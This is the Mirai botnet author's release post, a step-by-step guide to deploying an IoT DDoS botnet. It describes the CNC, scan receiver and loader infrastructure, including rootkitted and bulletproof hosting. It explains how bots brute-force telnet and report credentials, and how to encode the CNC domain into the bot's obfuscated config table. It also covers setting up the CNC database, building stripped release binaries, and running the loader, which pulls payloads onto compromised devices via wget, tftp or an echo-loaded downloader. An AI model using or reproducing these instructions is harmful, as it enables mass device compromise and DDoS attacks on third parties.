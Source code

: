 Preface
Greetz everybody,

When I first go in DDoS industry, I wasn't planning on staying in it long. I made my money, there's lots of eyes looking at IOT now, so it's time to GTFO. However, I know every skid and their mama, it's their wet dream to have something besides qbot.

So today, I have an amazing release for you. With Mirai, I usually pull max 380k bots from telnet alone. However, after the Kreb DDoS, ISPs been slowly shutting down and cleaning up their act. Today, max pull is about 300k bots, and dropping.

So, I am your senpai, and I will treat you real nice, my hf-chan.

And to everyone that thought they were doing anything by hitting my CNC, I had good laughs, this bot uses domain for CNC. It takes 60 seconds for all bots to reconnect, lol

Also, shoutout to this blog post by malwaremustdie
http://blog.malwaremustdie.org/2016/08/m...-just.html
https://web.archive.org/web/201609302302...-just.html <- backup in case low quality reverse engineer unixfreaxjp decides to edit his posts lol
Had a lot of respect for you, thought you were good reverser, but you really just completely and totally failed in reversing this binary. "We still have better kung fu than you kiddos" don't make me laugh please, you made so many mistakes and even confused some different binaries with my. LOL

Let me give you some slaps back -
- 1) port 48101 is not for back connect, it is for control to prevent multiple instances of bot running together
- 2) `/dev/watchdog` and `/dev/misc` are not for "making the delay", it for preventing system from hanging. This one is low-hanging fruit, so sad that you are extremely dumb
- 3) You failed and thought `FAKE_CNC_ADDR` and `FAKE_CNC_PORT` was real CNC, lol "And doing the backdoor to connect via HTTP on 65.222.202.53". you got tripped up by signal flow ;) try harder skiddo
- 4) Your skeleton tool sucks ass, it thought the attack decoder was "sinden style", but it does not even use a text-based protocol? CNC and bot communicate over binary protocol
- 5) you say `chroot("/")` so predictable like torlus' but you don't understand, some others kill based on cwd. It shows how out-of-the-loop you are with real malware. Go back to skidland

5 slaps for you

Why are you writing reverse engineer tools? You cannot even correctly reverse in the first place. Please learn some skills first before trying to impress others. Your arrogance in declaring how you "beat me" with your dumb kung-fu statement made me laugh so hard while eating my SO had to pat me on the back.

Just as I forever be free, you will be doomed to mediocracy forever.


Requirements
Bare Minimum
2 servers: 1 for CNC + mysql, 1 for scan receiver, and 1+ for loading

Pro Setup (my setup)
2 VPS and 4 servers
- 1 VPS with extremely bulletproof host for database server
- 1 VPS, rootkitted, for scanReceiver and distributor
- 1 server for CNC (used like 2% CPU with 400k bots)
- 3x 10gbps NForce servers for loading (distributor distributes to 3 servers equally)


Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- `TABLE_CNC_DOMAIN` - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- `TABLE_CNC_PORT` - Port to connect to, its set to 23 already
- `TABLE_SCAN_CB_DOMAIN` - When finding bruted results, this domain it is reported to
- `TABLE_SCAN_CB_PORT` - Port to connect to for bruted results, it is set to 48101 already.

In `./mirai/tools` you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
```python
./build.sh debug telnet
```
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
```python
./debug/enc string fuck.the.police.com
```
The output should look like this
```python
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​
```
To update the TABLE_CNC_DOMAIN value for example, replace that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

```python
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

Now that we know value from enc tool, we update it like this
```python
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​", 20); // fuck.the.police.com
```
Some values are strings, some are port (uint16 in network order / big endian).

Configuring CNC
```python
apt-get install mysql-server mysql-client
```
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
```python
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
```
Now, go into file `./mirai/cnc/main.go`

Edit these values

```python
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```
To the information for the mysql server you just installed


Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!
[Image: BVc7qJs.png]

2) http://santasbigcandycane.cx/loader.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!

How to build bot + CNC
In mirai folder, there is build.sh script.

```python
./build.sh debug telnet
```
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to `./mirai/debug` folder

```python
./build.sh release telnet
```
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to `./mirai/release` folder


Building Echo Loader
Loader reads telnet entries from STDIN in following format:
```python
ip:port user:pass
```
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget. You can find code to compile the tiny downloader stub h ere
http://santasbigcandycane.cx/dlr.src.zip

You need to edit your main.c for the dlr to include the HTTP server IP. The idea is, if the iot device doesn have tftp or wget, then it will echo load this 2kb binary, which download the real binary, since echo loading really slow.
When you compile, place your dlr.* files into the folder ./bins for the loader

```python
./build.sh
```
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this

```python
cat file.txt | ./loader
```
Remember to ulimit!

Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"
